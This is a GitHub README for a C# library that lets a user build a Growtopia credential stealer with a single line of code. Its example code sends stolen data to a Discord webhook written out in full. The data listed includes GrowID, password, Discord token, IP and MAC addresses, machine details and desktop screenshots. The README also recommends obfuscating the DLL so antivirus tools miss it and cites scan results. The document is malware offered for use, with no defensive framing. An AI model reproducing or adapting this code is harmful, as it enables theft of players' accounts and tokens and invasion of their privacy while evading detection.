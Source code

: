 # StealerLibrary
Growtopia (Save.dat) Stealer Library that let you to write a stealer with 1 line of code.

## Compiled Version: [All Releases](https://github.com/extatent/StealerLibrary/releases/)

### Compile the source code with Visual Studio and add the .DLL to the references in your project and start writting the code below.

#### Your program might be FUD, but the .DLL isn't, use any obfuscator to make it FUD. (Used [Agile.Net](https://secureteam.net/acode-features-detailed) Scan Results 0/26) (Without Obfuscator 4/26)

## Example Usage : 

```csharp
using StealerLibrary;
using System;

namespace Example
{
    class Program
    {
        private static void Main()
        {
            Growtopia.Stealer("https://discord.com/api/webhooks/837357864609199746/4wIlD35Q9QNdLGEfd9hWezQX9eAMxCBqDQcMmIBBvAtoKTjDlJAzkMaxyc1kcxaY4TpP", "Webhook Picture Url (Optional)", "Stealer Library", true, false, true, true, false, true, false, true, true);
        }
    }
}
```
1. Webhook Url
2. Webhook Picture Url (Optional)
3. Webhook Name (Optional)
4. Last World (True/False)
5. MAC Address (True/False)
6. IP Address (True/False)
7. Discord Token (True/False)
8. User Name (True/False)
9. Machine Name (True/False)
10. OS Information (True/False)
11. Country (True/False)
12. Desktop Screenshot (True/False)

## Features
### V1
- GrowID
- Password
- Last World (Customizable: True/False)
- MAC Address (Customizable: True/False)
- IP Address (Customizable: True/False)
### V2
- Discord Token (Customizable: True/False)
- User Name (Customizable: True/False)
- Machine Name (Customizable: True/False)
- OS Information (Customizable: True/False)
- Country (Customizable: True/False)
- Desktop Screenshot (Customizable: True/False)

<img src="http://anarchy.5v.pl/example2.png" alt="png">

## StealerLibrary is licensed under the GNU General Public License v3.0. See the [LICENSE](https://github.com/extatent/StealerLibrary/blob/main/LICENSE) file for details.
